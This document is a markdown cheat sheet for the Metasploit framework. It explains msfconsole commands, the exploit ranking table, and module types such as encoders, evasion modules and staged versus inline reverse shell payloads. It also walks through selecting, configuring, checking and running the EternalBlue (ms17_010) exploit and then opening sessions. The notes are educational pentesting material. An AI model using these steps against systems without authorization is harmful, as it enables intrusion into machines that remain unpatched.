 # Metasploit

## MSFConsole
Main cli launched by:
```sh
msfconsole

msf6>
```

Find a module:
```sh
msf6 > search ms17-010
msf6 > search type:auxiliary telnet
msf6 > use 0
```

Rankings:
| Ranking | Description |
| ------- | ----------- |
| ExcellentRanking | The exploit will never crash the service. This is the case for SQL Injection, CMD execution, RFI, LFI, etc. No typical memory corruption exploits should be given this ranking unless there are extraordinary circumstances (WMF Escape()). |
| GreatRanking | The exploit has a default target AND either auto-detects the appropriate target or uses an application-specific return address AFTER a version check. |
| GoodRanking | The exploit has a default target and it is the “common case” for this type of software (English, Windows 7 for a desktop app, 2012 for server, etc). Exploit does not auto-detect the target. |
| NormalRanking	| The exploit is otherwise reliable, but depends on a specific version that is not the “common case” for this type of software and can’t (or doesn’t) reliably autodetect. |
| AverageRanking | The exploit is generally unreliable or difficult to exploit, but has a success rate of 50% or more for common platforms. |
| LowRanking | The exploit is nearly impossible to exploit (under 50% success rate) for common platforms. |
| ManualRanking	| The exploit is unstable or difficult to exploit and is basically a DoS (15% success rate or lower). This ranking is also used when the module has no use unless specifically configured by the user (e.g.: exploit/unix/webapp/php_eval). |


Navigate to a directory to use a module:
```sh
msf6> use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

Get information and modules:
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > info
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
```

Set parameters. Confirm with `show options`:
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.10.10
msf6 exploit(windows/smb/ms17_010_eternalblue) > unset LHOST 10.10.10.10
msf6 exploit(windows/smb/ms17_010_eternalblue) > unset all
```

Global parameters apply to all modules
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > setg rhosts 10.10.10.10
msf6 exploit(windows/smb/ms17_010_eternalblue) > unsetg rhosts 10.10.10.10
```
Check Exploit
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > check
```

Exploit
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit -z
```

Sessions
```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 3
```


## Modules
By default modules are located in `/opt/metasploit-framework/embedded/framework/modules/`

### /auxilary
Scanners, crawlers and fuzzers.

### /encoders
Alter exploits and payloads in hopes to obfuscate and reduce chances of detection.

### /evaison
Attempt to evade anti-virus

### /nops
No Operation literally do nothing. They are represented in the Intel x86 CPU family with `0x90` following which the CPU will do nothing for one cycle. This is often used as a buffer to achieve consistent payload sizes.

### /payloads
Code that will run on a target system

- *Adapters*: A payload can be wrapped inside a Powershell adapter which can be called by a PS command.
- *Singles*: Self-contained payloads (add user, launch notepad.exe) that do not need an additional component to run.
- *Stagers*: Setting up a connection between Metasploit and the target system. Uplod a stager on the target system that will download additional stages. Useful when limited size is needed.
- *Stage*: A step downloaded by the `stager`

#### Inline / Single Payload
Indicated by `_` between "shell" and "reverse" staged

    1. `generic/shell_reverse_tcp` - Inline payload
    2. `windows/x64/shell/reverse_tcp` - Staged payload

### /post
Used in the final stage.

## Tools
Useful from recon to research.
- msfvenom
- pattern_create
- pattern_offset
